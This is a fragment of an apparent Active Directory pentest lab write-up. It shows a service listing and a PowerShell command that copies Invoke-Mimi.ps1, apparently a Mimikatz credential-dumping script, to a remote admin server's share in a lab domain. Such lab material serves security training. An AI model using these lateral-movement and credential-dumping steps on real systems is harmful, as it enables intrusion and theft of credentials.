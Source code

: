 ```sh
----        ---------      -----
MSSQLSERVER dcorp\svcadmin Running
```
{% endcode %}
{% endtab %}

{% tab title="LO7" %}
{% code overflow="wrap" %}
```powershell
Copy-Item .\Invoke-Mimi.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
{% endcode %}
{% endtab %}
{% endtabs %}
